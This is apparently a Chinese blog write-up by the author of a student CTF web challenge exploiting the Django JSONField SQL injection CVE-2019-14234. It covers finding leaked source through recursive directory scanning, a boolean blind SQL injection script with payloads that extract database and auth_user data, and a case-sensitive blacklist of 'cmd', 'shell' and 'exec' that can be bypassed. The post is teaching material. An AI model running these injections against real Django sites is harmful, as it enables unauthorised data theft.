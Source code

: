 ```yaml
---
layout:		post
title:		"202101-蓝队乙组月赛your_ip题解"
subtitle:	"题目源码和题解 :)"
date:		2021-02-02 16:17:45  +0800
author:		"Les1ie"
catlog:   true
tags: 
  - CTF
  - wp
---
```



# 序

有学弟问我月赛题目源码，感觉当时写的 wp 可以拿来水一篇博客（笑） :)



# 概述

题目在  https://github.com/IanSmith123/your_ip 




cve-2019-14234  django jsonfield 注入

此处构造了一个插入数据库和查询数据库的操作，其中查询的操作是可以控制注入的



接口两个

```
http://ip/save/?ip=1.1.1.1&domain=example.com
http://ip/query/?domain=example.com

```

# 代码泄露

首页图路径

```
http://ip/static
```

![](https://static.scuseek.com/20210116214606.png)

扫描可得存在`http://ip/static/www.zip`。



```
Hint 1: I love something else beside Assassins creed. :)
Hint 2: There is something interesting in /static, try to find it.  :)  
```

一早上过去了，没有人扫到www.zip，因为一般的扫描器没有开启递归扫描，dirmap修改配置文件开启递归可以很快扫到。给了hint1和hint2之后，有两个同学扫到了www.zip，下午更晚一点的时候第三个同学扫到了www.zip。

在hint2的基础上，可以直接扫`ip:port/static`，一般情况下可以在半分钟内扫到泄露的代码。

# 审计

下载后审计代码，可以找到

```python
# ip/views.py
def query_ip(request):
    dic = request.GET
    dic = dict(dic)
    if len(dic) == 0:
        return render(request, 'query.html')

    # good idea for all kind of query
    dic = {f"ip__{k}": dic[k][0] for k in dic}
    print(dic)
    my_ip = MyIP.objects.filter(**dic).all().values()
    my_ip = [item for item in my_ip]

    return JsonResponse(my_ip, safe=False)

```

其中两行是bug的起源，参考 https://www.leavesongs.com/PENETRATION/django-jsonfield-cve-2019-14234.html 

```
dic = {f"ip__{k}": dic[k][0] for k in dic}
my_ip = MyIP.objects.filter(**dic).all().values()
```

此处控制 `domain`处，造成sql注入
```
http://ip/query/?do%27main=example.com
```


因为在题目里面，django关闭了debug，遇到错误直接返回500，如果语句构造正确，那么返回200。

因为已经有views.py了，本地可以新建一个django项目，把views.py放进去，可以直接调试构造的sql语句。

![](https://static.scuseek.com/20210202162554.png)

# 构造Poc

布尔盲注  如果2>1的条件成立，那么返回结果，如果2>1不成立，那么返回空

```python
def fun(poc):
    url = f"http://ip:8029/query/?domain{poc}=b"
    r = requests.get(url)
    print(r.text)
fun("""')>'1' or 2>1--""") #
```
因为这里不会返回注入的结果，此处可以使用布尔盲注的方式来判断数据。
```
124.16.75.162:31056/query/?domain')>'1' or 2>1--=b    
```
![](https://static.scuseek.com/20210116211213.png)
```
http://124.16.75.162:31056/query/?domain%27)%3E%271%27%20or%202%3C1--=b
```
![](https://static.scuseek.com/20210116211230.png)

因此可以构造一个简单的盲注脚本

```python
def bool_blind(poc):
    url = f"http://ip:8029/query/?domain')>'1' or {poc}--=b"
    print(url)
    r = requests.get(url)
    print(r.text)
```

接下来就是常规的猜表名长度，猜表名，列名的阶段



比如猜当前数据库的库名的第一个字符：

```python
bool_blind("(select ascii(substr(current_database(),1,1))) between 30 and 98")
```

不给第三条hint也不会影响做题，但是考虑到表比较多，爆破可能花时间，所以直接给了hint。本地新建一个工程，运行`docker-entrypoint.sh`的内容可以看到flag在`auth_user`表，省略了猜表名猜列名的步骤，直接到爆破flag的阶段。

```python

Hint 3:
$ cat docker-entrypoint.sh 
#!/bin/bash

set -ex
cd /app
chmod +x wait-for-it.sh
./wait-for-it.sh -t 0 psql:5432 -- echo "postgres is up"

python manage.py makemigrations
python manage.py migrate
python manage.py shell -c "from django.contrib.auth.models import User; User.objects.create_user('flag', 'flag{fake_flag}', 'this_is_not_important') if not User.objects.filter(username='flag').exists() else 0;"

exec "$@"% 
 
You'd better create your own web server in your local computer to find the table name, column name and debug your POC.
```
# 最终 poc

最终payload呼之欲出：

爆破flag字符串第一位的ascii码
```python
bool_blind("(select ascii(substr((select email from auth_user),1,1))) between 0 and 102")
```

写脚本修改上限，或者人工二分，都可以快速得到flag



# 跋

代码泄露这个阶段卡了大家这么久，这个我得给大家道歉，我没想到这里会是第一个坑，好在连给了两个hint之后，终于有一位同学扫到了/static/www.zip，然后可能和他一起做题的另一个同学，也直接访问了这个路径。没过多久，就看到构造的`ip{poc}=xxx`打了过来，以为很快这题就会被秒了，因为已经构造出了布尔盲注的条件了，就差修改之后的判断语句了，可是很遗憾，这两位同学还是没有做出来这道题。

因为flag是在数据库里面，而这里可以使用`postgres`的命令执行拿到数据库的shell，但是此处拿到了shell也不能拿到flag，因为有shell也无法登录到数据库里面，也就无法拿到flag，所以我想过在数据库里面也放同样的一个flag，但是最终放弃了这个想法，而是写了个蹩脚的黑名单过滤，让做题的同学回到注入的思路中，结果忽略了大小写可以绕过 :(  日志里面看到这两位同学的大写的 `CMD_EXEC`打了过来，心里一惊 :)  不过最后还是没有拿到shell

```python
def check_danger_string(s: str):
    ban_list = ['cmd', 'shell', 'exec', 'cyberpunk']
    for item in ban_list:
        if item in s:
            return False
    return True
```

159.226.95.*  扫了挺久的，看日志很多次都和www.zip 擦肩而过，感觉这个扫描器可能不大好使，后来和他交流之后看到他扫到了源码，很快也在日志里面看到了yunsle开始构造poc，可是时间已经不够了  :)

虽然没有同学做出来这道题，不过看同学们做题还是开心的一天啊   :)

![](https://static.scuseek.com/20210116215647.png)

Les1ie

2021年1月10日00:11:58